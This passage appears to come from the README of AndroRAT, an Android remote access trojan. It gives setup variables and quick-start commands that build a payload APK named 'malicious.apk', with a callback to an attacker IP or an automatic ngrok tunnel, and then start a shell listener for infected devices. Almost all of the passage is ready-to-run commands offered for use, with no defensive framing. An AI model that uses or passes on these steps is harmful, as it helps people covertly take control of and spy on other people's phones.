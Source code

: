 #### 2️⃣ **Environment Setup**
```bash
# Optional: Set environment variables
export ANDRORAT_PORT=8000
export ANDRORAT_HOST=0.0.0.0
export ANDRORAT_DEBUG=false
```

#### 3️⃣ **Verification**
```bash
# Test Java installation
java -version

# Test Python installation
python --version

# Test AndroRAT
python androRAT.py --help
```

---

## 🚀 **Quick Start**

### 🎯 **Basic Usage**

#### 1️⃣ **Build APK with Ngrok (Recommended)**
```bash
python androRAT.py --build --ngrok -o malicious.apk
```

#### 2️⃣ **Build APK with Custom IP**
```bash
python androRAT.py --build -i 192.168.1.100 -p 8000 -o custom.apk
```

#### 3️⃣ **Start Listener**
```bash
python androRAT.py --shell -i 0.0.0.0 -p 8000
```

### 🎮 **Advanced Examples**

#### 🌐 **Internet Connection (Ngrok)**
```bash
# Build and automatically start listener
python androRAT.py --build --ngrok -o remote.apk

# The tool will:
# 1. Create secure ngrok tunnel
# 2. Build APK with tunnel URL
# 3. Start listening for connections
# 4. Display connection details
```
